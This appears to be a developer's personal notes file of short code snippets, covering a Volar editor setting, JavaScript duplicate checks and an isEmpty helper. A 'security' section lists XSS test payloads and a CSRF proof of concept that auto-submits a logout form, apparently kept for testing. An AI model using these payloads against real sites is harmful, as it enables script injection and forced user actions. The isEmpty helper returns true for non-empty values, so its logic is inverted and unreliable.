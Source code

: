 ### volar
```
"volar.inlayHints.eventArgumentInInlineHandlers": true
```

### security
```js
"><script>alert("XSS")</script>
"><script>alert("XSS")</script>

" onclick=alert(1)//<button ' onclick=alert(1)//> 
" onclick=alert(1)//<button ' onclick=alert(1)//> */ alert(1)//


"><marquee/onstart=confirm(String.fromCharCode(88,
"><marquee/onstart=confirm(String.fromCharCode(88,83,83))>//


<html>
  <body onload="document.forms[0].submit()">
    <form action="https://testsite.com/logout">
    </form>
  </body>
</html>
```

### 중복체크
```js
// 확인할 값
const checkedList = this.refProductDxDataGrid.instance.getSelectedRowsData()

this.gridData.map(row => { if (row.testId.lastIndexOf(checkedList[0].testId) > -1) flag = true })

this.gridData.some(row => row.testId === checkedList[0].testId)
```

### isEmpty
```js
isEmpty(val) {
  var result = false
  if (val != null && val != 'undefined' && val != '') {
    result = true
  }
  return result
}
```

### references
https://junior-datalist.tistory.com/236

